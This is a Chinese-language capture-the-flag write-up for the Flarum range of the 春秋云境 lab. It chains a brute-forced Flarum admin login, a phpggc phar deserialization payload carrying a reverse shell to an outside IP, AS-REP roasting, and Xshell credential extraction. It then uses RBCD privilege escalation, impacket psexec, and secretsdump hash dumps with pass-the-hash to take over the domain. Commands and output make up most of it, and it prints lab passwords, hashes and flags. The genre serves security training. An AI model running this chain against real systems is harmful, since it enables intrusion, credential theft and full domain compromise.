# 春秋云境-Flarum

‍

‍

‍

1. 请测试 Flarum 社区后台登录口令的安全性，并获取在该服务器上执行任意命令的能力。



尝试用户名 `administrator`,使用burp 和字典 爆破密码

```py
1chris
```

登录进去后就，可以访问后台管理界面



## Flarum 1.6.0 后台

[实战 | 记一次从Flarum开始的RCE之旅 - SecPulse.COM | 安全脉搏](https://www.secpulse.com/archives/185921.html)

‍







‍



‍

‍

```py
https://github.com/ambionics/phpggc
```

‍

```py
php -d phar.readonly=0 phpggc -p tar -b Monolog/RCE6 system "bash -c 'bash -i >& /dev/tcp/120.48.159.147/5656 0>&1'"
```

‍



然后再构造一个 进行包含此CSS文件, 然后点击保存

‍

```css
.test {
  content: data-uri("phar://./assets/forum.css");
}
```



‍

## flag1

‍

```py
# cat flag*
                                 _         _       _   _                 
  ___ ___  _ __   __ _ _ __ __ _| |_ _   _| | __ _| |_(_) ___  _ __  ___ 
 / __/ _ \| '_ \ / _` | '__/ _` | __| | | | |/ _` | __| |/ _ \| '_ \/ __|
| (_| (_) | | | | (_| | | | (_| | |_| |_| | | (_| | |_| | (_) | | | \__ \
 \___\___/|_| |_|\__, |_|  \__,_|\__|\__,_|_|\__,_|\__|_|\___/|_| |_|___/
                 |___/                                                   

flag01: flag{651e336e-4a83-482b-942a-266f686f5bb0}
```

‍

## 172.22.60.8

```py

172.22.60.52 入口

172.22.60.8 DC
172.22.60.15 PC1
172.22.60.42 Fileserver


172.22.60.8 DC.xiaorang.lab
172.22.60.15  PC1.xiaorang.lab
```

‍

## NUP

用户名从网站里面拿

‍

```py
impacket-GetNPUsers -no-pass -usersfile ./users.txt xiaorang.lab/
```

‍

```py
$krb5asrep$23$wangyun@xiaorang.lab@XIAORANG.LAB:9065c49475b8a91f8a134c506ec8c6b9$4ec719242fcf79555c53f0bb0cd8e97d637e21af17dce34a0044b308170f8898168675a6720756a34146d990f118a096204d6b604c2b0784050147c4ad5ce51fbf4fec30a21e8485736486714ad633c4ca6f28d8c0a8b2f241301e9144e4c33743fd34104a16928b59c33fa4906bfc16750fa64a78f4f5af6ebd5c6c4323aa9fec2d4c43aeb7c60e112ff9dcb0ebe805cebe70ee42b9bb4614da068d61d664001e068c06a61904ce44422f9cc7c2c3a876934b4407f5b790a664f6db161b950367210e172b176d4f81353144744ca1777bf5833441b46ee572160f4105aa70cf82477136360c194cf1270ae9:Adm12geC
```

‍

‍

```py
bloodhound-ce-python -d xiaorang.lab -u wangyun -p 'Adm12geC'  -ns 172.22.60.8  -dc DC.xiaorang.lab --dns-tcp --dns-timeout 15 -c all --zip
```

‍

## xshell-凭证导出

wangyun 可以 远程桌面登录 172.22.60.15


```py
https://github.com/JDArmy/SharpXDecrypt/releases/tag/v0.1.4
C:\Users\wangyun\Desktop>SharpXDecrypt.exe

Xshell全版本凭证一键导出工具!(支持Xshell 7.0+版本)
Author: 0pen1
Github: https://github.com/JDArmy
[!] WARNING: For learning purposes only,please delete it within 24 hours after downloading!

[*] Start GetUserPath....
  UserPath: C:\Users\wangyun\Documents\NetSarang Computer\7
[*] Get UserPath Success !

[*] Start GetUserSID....
  Username: wangyun
  userSID: S-1-5-21-3535393121-624993632-895678587-1107
[*] GetUserSID Success !

  XSHPath: C:\Users\wangyun\Documents\NetSarang Computer\7\Xshell\Sessions\SSH.xsh
  Host: 172.22.60.45
  UserName: zhangxin
  Password: admin4qwY38cc
  Version: 7.1

[*] read done!

C:\Users\wangyun\Desktop>
```

## Bloodhound 信息收集

## RBCD 提权





‍

```py
# proxychains4 -q impacket-addcomputer \
  -dc-ip 172.22.60.8  \
  -computer-name 'RBCD02$' \
  -computer-pass 'P@ssw0rd' \
  'xiaorang.lab/zhangxin:admin4qwY38cc'
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Successfully added machine account RBCD02$ with password P@ssw0rd.
```

‍

- FILESERVER

```py
# proxychains4 -q impacket-rbcd \
  -dc-ip 172.22.60.8 \
  -delegate-from 'RBCD02$' \
  -delegate-to 'FILESERVER$' \
  -action write \
  'xiaorang.lab/zhangxin:admin4qwY38cc'
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Accounts allowed to act on behalf of other identity:
[*]     RBCD01$      (S-1-5-21-3535393121-624993632-895678587-1116)
[*] Delegation rights modified successfully!
[*] RBCD02$ can now impersonate users on FILESERVER$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     RBCD01$      (S-1-5-21-3535393121-624993632-895678587-1116)
[*]     RBCD02$      (S-1-5-21-3535393121-624993632-895678587-1117)
```

```py
# proxychains4 -q impacket-getST \
  -dc-ip 172.22.60.8 \
  -spn 'cifs/FILESERVER.xiaorang.lab' \
  -impersonate administrator \
  'xiaorang.lab/RBCD02$:P@ssw0rd'
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@cifs_FILESERVER.xiaorang.lab@XIAORANG.LAB.ccache
```

‍

```py
proxychains4 -q impacket-psexec \
  -k -no-pass \
  -dc-ip 172.22.60.8 \
  -target-ip 172.22.60.42 \
  'xiaorang.lab/administrator@FILESERVER.xiaorang.lab'qq
```

‍

- PC1

```py
proxychains4 -q impacket-rbcd \
  -dc-ip 172.22.60.8 \
  -delegate-from 'RBCD02$' \
  -delegate-to 'PC1$' \
  -action write \
  'xiaorang.lab/zhangxin:admin4qwY38cc'
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] RBCD02$ can now impersonate users on PC1$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     RBCD02$      (S-1-5-21-3535393121-624993632-895678587-1117)
```

‍

```py
proxychains4 -q impacket-getST \
  -dc-ip 172.22.60.8 \
  -spn 'cifs/PC1.xiaorang.lab' \
  -impersonate administrator \
  'xiaorang.lab/RBCD02$:P@ssw0rd'
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@cifs_PC1.xiaorang.lab@XIAORANG.LAB.ccache
```

‍

```py
export KRB5CCNAME=/mnt/downloads/kali_tools/tmp/Flarum/administrator@cifs_PC1.xiaorang.lab@XIAORANG.LAB.ccache
```

‍

```py
proxychains4 -q impacket-psexec \
  -k -no-pass \
  -dc-ip 172.22.60.8 \
  -target-ip 172.22.60.15 \
  'xiaorang.lab/administrator@PC1.xiaorang.lab'
```

‍

## flag02

```py
d88888b db       .d8b.  d8888b. db    db .88b  d88. 
88'     88      d8' `8b 88  `8D 88    88 88'YbdP`88 
88ooo   88      88ooo88 88oobY' 88    88 88  88  88 
88~~~   88      88~~~88 88`8b   88    88 88  88  88 
88      88booo. 88   88 88 `88. 88b  d88 88  88  88 
YP      Y88888P YP   YP 88   YD ~Y8888P' YP  YP  YP 

flag02: flag{cdac7f51-6d7a-443b-973b-f8d5d873d833}
```

‍

## flag03

```py
C:\>type C:\Users\Administrator\flag\flag03.txt 
 ________  __
|_   __  |[  |
  | |_ \_| | |  ,--.   _ .--.  __   _   _ .--..--.    
  |  _|    | | `'_\ : [ `/'`\][  | | | [ `.-. .-. |   
 _| |_     | | // | |, | |     | \_/ |, | | | | | |   
|_____|   [___]\'-;__/[___]    '.__.'_/[___||__||__]  

flag03: flag{9e49edbb-b274-472a-94ce-58047750b7d5}
```

‍

‍

## DC

‍



‍

dump  FILESERVER 本机的 管理员的 hash

目标是 `FILESERVER.xiaorang.lab`，所以主要提取该成员服务器的本地机密

```ps
proxychains4 -q impacket-secretsdump -k -no-pass FILESERVER.xiaorang.lab -dc-ip 172.22.60.8
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xef418f88c0327e5815e32083619efdf5
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bd8e2e150f44ea79fff5034cad4539fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:b40dda6fd91a2212d118d83e94b61b11:::
[*] Dumping cached domain logon information (domain/username:hash)
XIAORANG.LAB/Administrator:$DCC2$10240#Administrator#f9224930044d24598d509aeb1a015766: (2023-08-02 07:52:21+00:00)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
XIAORANG\Fileserver$:plain_password_hex:3000310078005b003b0049004e003500450067003e00300039003f0074006c00630024003500450023002800220076003c004b0057005e0063006b005100580024007300620053002e0038002c0060003e00420021007200230030003700470051007200640054004e0078006000510070003300310074006d006b004c002e002f0059003b003f0059002a005d002900640040005b0071007a0070005d004000730066006f003b0042002300210022007400670045006d0023002a002800330073002c00320063004400720032002f003d0078006a002700550066006e002f003a002a0077006f0078002e0066003300
XIAORANG\Fileserver$:aad3b435b51404eeaad3b435b51404ee:951d8a9265dfb652f42e5c8c497d70dc:::
[*] DPAPI_SYSTEM
dpapi_machinekey:0x15367c548c55ac098c599b20b71d1c86a2c1f610
dpapi_userkey:0x28a7796c724094930fc4a3c5a099d0b89dccd6d1
[*] NL$KM
 0000   8B 14 51 59 D7 67 45 80  9F 4A 54 4C 0D E1 D3 29   ..QY.gE..JTL...)
 0010   3E B6 CC 22 FF B7 C5 74  7F E4 B0 AD E7 FA 90 0D   >.."...t........
 0020   1B 77 20 D5 A6 67 31 E9  9E 38 DD 95 B0 60 32 C4   .w ..g1..8...`2.
 0030   BE 8E 72 4D 0D 90 01 7F  01 30 AC D7 F8 4C 2B 4A   ..rM.....0...L+J
NL$KM:8b145159d76745809f4a544c0de1d3293eb6cc22ffb7c5747fe4b0ade7fa900d1b7720d5a66731e99e38dd95b06032c4be8e724d0d90017f0130acd7f84c2b4a
[*] Cleaning up...
[*] Stopping service RemoteRegistry

nxc smb 172.22.60.42 -u 'Administrator' -H bd8e2e150f44ea79fff5034cad4539fc --local-auth
```



‍

‍

```py
proxychains4 -q impacket-secretsdump xiaorang.lab/'FILESERVER$':@172.22.60.8 -hashes ':951d8a9265dfb652f42e5c8c497d70dc' -just-dc-user Administrator

Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c3cfdc08527ec4ab6aa3e630e79d349b:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:4502e83276d2275a8f22a0be848aee62471ba26d29e0a01e2e09ddda4ceea683
Administrator:aes128-cts-hmac-sha1-96:38496df9a109710192750f2fbdbe45b9
Administrator:des-cbc-md5:f72a9889a18cc408
```

‍

‍

## flag04

‍

```py
C:\Users\Administrator\flag\flag04.txt


 :::===== :::      :::====  :::====  :::  === :::======= 
 :::      :::      :::  === :::  === :::  === ::: === ===
 ======   ===      ======== =======  ===  === === === ===
 ===      ===      ===  === === ===  ===  === ===     ===
 ===      ======== ===  === ===  ===  ======  ===     ===

flag04: flag{7e20f0eb-3ee6-4bce-93c5-f9cb705378da}
```

‍

‍

## 总结




